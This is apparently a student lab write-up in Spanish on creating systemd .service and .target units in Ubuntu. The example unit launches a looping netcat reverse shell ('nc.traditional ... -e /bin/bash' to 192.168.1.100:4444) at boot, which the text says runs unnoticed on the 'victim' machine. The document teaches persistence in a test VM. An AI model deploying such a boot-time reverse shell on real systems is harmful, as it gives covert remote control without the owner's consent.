






# __Creació d'entorns d'arrancada__
Esta práctica trata sobre la creación de servicios (`.service`) y targets (`.target`) en Ubuntu, conceptos fundamentales en la administración de sistemas y ciberseguridad.

- Un archivo **`.service`** define un servicio gestionado por *systemd*, como ejecutar automáticamente un script al iniciar el equipo. Por ejemplo, se puede usar para levantar una reverse shell en un entorno de pruebas de ciberseguridad.
- Un archivo **`.target`** agrupa varios servicios y otros targets, permitiendo organizar y controlar el arranque de múltiples componentes relacionados.
- El directorio **`.wants`** se genera automáticamente por *systemd* para cada target y contiene enlaces simbólicos a los servicios que deben iniciarse junto con ese target. Así, al activar un target, se activan todos los servicios asociados en su `.wants`.

En resumen: los `.service` definen tareas concretas, los `.target` agrupan servicios, y los `.wants` gestionan qué servicios se inician con cada target.

## __.service__
El siguiente es un ejemplo de archivo `.service`:

**Explicación línea por línea:**

- `[Unit]`: Sección donde se describe el propósito del servicio y sus dependencias.
    - `Description=Servicio pt1 que ejecuta pt1.sh`: Breve descripción del servicio.
    - `After=network.target`: Indica que el servicio debe iniciarse después de que la red esté disponible.

- `[Service]`: Sección principal que define cómo se ejecuta el servicio.
    - `ExecStart=/usr/local/bin/pt1.sh`: Comando que se ejecuta al iniciar el servicio (en este caso, el script `pt1.sh`).
    - `Restart=always`: El servicio se reiniciará automáticamente si se detiene por cualquier motivo.
    - `Type=simple`: Indica que el servicio se considera activo mientras el proceso principal esté en ejecución.
    - `TimeoutStartSec=0`: No hay tiempo de espera para que el servicio arranque; se inicia inmediatamente.

- `[Install]`: Sección que define cómo y cuándo se activa el servicio.
    - `WantedBy=pt1.target`: Permite que el servicio se active automáticamente cuando se inicia el target `pt1.target`.

## __.target__
El siguiente es un ejemplo de archivo `.target`:

**Explicación línea por línea:**

- `[Unit]`: Sección donde se describe el propósito del target y sus dependencias.
    - `Description=Target personalizado pt1`: Breve descripción del target.
    - `Requires=pt1.service`: Indica que este target necesita que el servicio `pt1.service` esté activo.
    - `After=network.target`: Especifica que este target debe iniciarse después de que la red esté disponible.

- `[Install]`: Sección que define cómo y cuándo se activa el target.
    - `WantedBy=default.target`: Permite que el target se active automáticamente al arrancar el sistema, ya que `default.target` es el objetivo principal de arranque en la mayoría de sistemas Linux.

## __¿Por qué se genera automáticamente un directorio `.target.wants`?__

Cuando se instala un servicio con la opción `WantedBy` en su archivo `.service`, *systemd* crea automáticamente un directorio llamado `.target.wants` para el target especificado. Dentro de este directorio, se añaden enlaces simbólicos a los servicios que deben iniciarse junto con ese target. Esto permite que, al activar el target, se ejecuten todos los servicios asociados de forma automática y ordenada, facilitando la gestión de dependencias y el arranque de componentes relacionados.

Se generará automáticamente más adelante, no hace falta crearlo.

## __.script__
El siguiente es un ejemplo de archivo `.sh`:

Voy a realizar una prueba ejecutando el script manualmente para comprobar si puedo conectarme correctamente al equipo remoto. Esto me permitirá verificar que la configuración y el funcionamiento del script son correctos antes de automatizar el proceso con systemd.

**Explicación línea por línea:**

- `SERVER_IP="192.168.1.100"`: Define la IP del equipo remoto que recibirá la conexión.
- `PORT=4444`: Especifica el puerto en el que el equipo remoto está escuchando.
- `while true; do ... done`: Bucle infinito para intentar la conexión continuamente.
- `nc.traditional $SERVER_IP $PORT -e /bin/bash`: Usa Netcat para conectar al equipo remoto y ejecutar Bash, proporcionando una shell interactiva.
- `sleep 10`: Si la conexión falla, espera 10 segundos antes de volver a intentarlo.

## __Pasos para aplicar los cambios y activar los servicios automáticamente__

**Recargar la configuración de systemd:**
    
    sudo systemctl daemon-reload
    

**Habilitar el servicio y el target para que se inicien automáticamente:**
    
    sudo systemctl enable pt1.service
    sudo systemctl enable pt1.target
    

Esto crea los enlaces simbólicos en los directorios `.wants` correspondientes.

**Iniciar manualmente el target (opcional, para comprobar que funciona):**
    
    sudo systemctl start pt1.target
    

**Verificar el estado del servicio y del target:**
    
    systemctl status pt1.service
    systemctl status pt1.target
    

Con estos pasos, el servicio y el target estarán configurados para arrancar automáticamente cada vez que se inicie el sistema.

## __Demostración en vídeo__

A continuación se muestra un vídeo donde se reinicia la máquina virtual y se verifica que la conexión al equipo remoto se establece automáticamente, gracias a la configuración realizada con systemd. Este proceso ocurre de manera transparente para el usuario de la máquina víctima, demostrando cómo los servicios y targets permiten automatizar tareas en el arranque del sistema sin intervención manual.

<video controls src="../vids/CreacioEntornsArrancada.mp4" title="Demostración"></video>